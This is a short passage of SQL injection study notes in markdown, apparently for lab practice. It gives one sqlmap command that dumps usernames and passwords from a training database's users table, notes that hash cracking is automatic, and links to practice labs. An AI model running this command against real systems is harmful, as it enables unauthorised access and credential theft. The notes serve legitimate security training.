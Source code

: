 ```bash
sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users -C username,password --dump #dump values of selected columns
```
By default, it will try to crack the hashed values.
![[4.png]]

### Resource Labs
- [sqlinjection-training-app](https://github.com/appsecco/sqlinjection-training-app)
- [[Connection With DBMS#Another way of Connecting to the DB|Set up your own server for practice]]
- [GoodGames HTB](https://app.hackthebox.com/machines/446)